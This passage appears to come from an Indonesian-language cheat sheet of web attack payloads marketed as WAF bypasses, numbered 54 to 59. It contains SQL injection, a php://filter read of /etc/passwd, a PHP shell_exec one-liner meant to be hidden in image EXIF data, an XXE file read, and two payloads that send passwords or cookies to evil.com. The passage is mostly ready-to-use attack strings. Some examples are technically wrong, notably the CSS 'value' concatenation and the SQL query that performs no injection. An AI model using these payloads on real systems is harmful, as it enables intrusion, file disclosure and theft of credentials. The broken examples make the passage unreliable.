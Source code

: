 
### **🛡️ 54. Nested SQL Injection Bypass**  
```sql
SELECT * FROM users WHERE username='admin' AND password=(SELECT password FROM users WHERE username='admin')
```
**📌 Teknik:**  
✅ **Nested Queries** = Memanfaatkan subquery dalam SQL Injection.  
✅ **Bypass WAF** karena terlihat seperti kueri SQL biasa.  

---

### **🛡️ 55. CSS Injection to Steal Credentials**  
```css
input[type="password"] { background: url("http://evil.com/log?pwd="+value); }
```
**📌 Teknik:**  
✅ **CSS Injection** = Mengeksploitasi style untuk mencuri input user.  
✅ **Bypass WAF** karena hanya terlihat seperti aturan CSS biasa.  

---

### **🛡️ 56. PHP Wrappers for RCE**  
```php
php://filter/convert.base64-encode/resource=/etc/passwd
```
**📌 Teknik:**  
✅ **PHP Wrappers** = Menggunakan filter PHP untuk membaca file sistem.  
✅ **Bypass WAF** karena tidak menggunakan fungsi eksplisit seperti `file_get_contents()`.  

---

### **🛡️ 57. Exif Metadata PHP Injection**  
```php
<?php $cmd="ls"; echo shell_exec($cmd); ?>
```
**📌 Teknik:**  
✅ **Exif Injection** = Menyisipkan kode PHP dalam metadata gambar.  
✅ **Bypass WAF** karena payload tersembunyi dalam metadata file.  

---

### **🛡️ 58. XML External Entity (XXE) Attack**  
```xml
<!DOCTYPE data [<!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<data>&file;</data>
```
**📌 Teknik:**  
✅ **XXE Attack** = Mengeksploitasi parser XML untuk membaca file sensitif.  
✅ **Bypass WAF** karena format XML terlihat valid.  

---

### **🛡️ 59. JavaScript Event Handler XSS**  
```html
<img src=x onerror="fetch('http://evil.com?cookie='+document.cookie)">
```
**📌 Teknik:**  
✅ **Event-based XSS** = Mengeksploitasi atribut event seperti `onerror`.  
✅ **Bypass WAF** karena payload tersimpan dalam atribut HTML.  

---